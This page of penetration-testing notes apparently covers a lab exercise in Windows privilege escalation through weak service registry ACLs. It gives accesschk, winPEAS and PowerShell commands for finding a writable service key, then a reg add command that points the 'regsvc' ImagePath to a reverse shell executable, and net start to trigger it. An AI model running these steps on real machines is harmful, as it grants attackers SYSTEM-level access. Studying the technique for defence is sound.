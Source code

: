 # Weak Registry Permissions

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

```text
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2874%29.png)

Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```text
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![](../../../../.gitbook/assets/image%20%2880%29.png)

Alternatively accesschk.exe can be used to confirm:

```text
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![](../../../../.gitbook/assets/image%20%2884%29.png)

verify that we can start the service:

```text
accesschk.exe /accepteula -ucqv user regsvc
```

![](../../../../.gitbook/assets/image%20%2891%29.png)

now lets check the current value of the service registry entry:

```text
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

![](../../../../.gitbook/assets/image%20%2888%29.png)

Overwrite the ImagePath registry key to point to our reverse shell executable:

```text
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![](../../../../.gitbook/assets/image%20%2872%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
 net start regsvc
```

![](../../../../.gitbook/assets/image%20%2885%29.png)





